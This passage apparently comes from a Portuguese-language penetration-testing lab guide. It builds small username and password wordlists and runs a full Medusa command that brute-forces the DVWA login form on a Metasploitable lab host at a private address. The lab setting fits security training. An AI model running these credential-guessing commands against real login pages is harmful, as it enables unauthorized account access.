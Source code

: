 
## 📝 Passo 2: Preparação das Wordlists

### 👥 Criação da Lista de Usuários

```bash
echo -e 'user\nmsfadmin\nadmin\nroot' > users.txt
```

#### 🔍 Análise Estratégica dos Usuários

| Usuário      | Categoria       | Probabilidade | Justificativa                 |
| ------------ | --------------- | ------------- | ----------------------------- |
| **user**     | Genérico        | Alta          | Nome comum em sistemas        |
| **msfadmin** | Target-specific | Muito Alta    | Usuário padrão Metasploitable |
| **admin**    | Administrativo  | Alta          | Conta administrativa padrão   |
| **root**     | Sistema         | Média         | Superusuário Unix/Linux       |

### 🔐 Criação da Lista de Senhas

```bash
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

#### 🔍 Análise Estratégica das Senhas

| Senha        | Categoria       | Rank Global | Justificativa                 |
| ------------ | --------------- | ----------- | ----------------------------- |
| **123456**   | Sequencial      | #1          | Senha mais usada mundialmente |
| **password** | Genérica        | #2          | Segunda mais comum            |
| **qwerty**   | Teclado         | #7          | Padrão de teclado             |
| **msfadmin** | Target-specific | N/A         | Senha padrão do alvo          |

### 📊 Estatísticas de Efetividade

- **Combinação total**: 4 usuários × 4 senhas = 16 tentativas
- **Tempo estimado**: 1-3 minutos (dependendo da configuração)

---

## ⚔️ Passo 3: Execução do Ataque Automatizado

### 🛠️ Comando Medusa para HTTP Forms

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
  -m PAGE:'/dvwa/login.php' \
  -m FORM:'username=^USER^&password=^PASS^&Login=Login' \
  -m FAIL:'Login failed' \
  -t 6
```
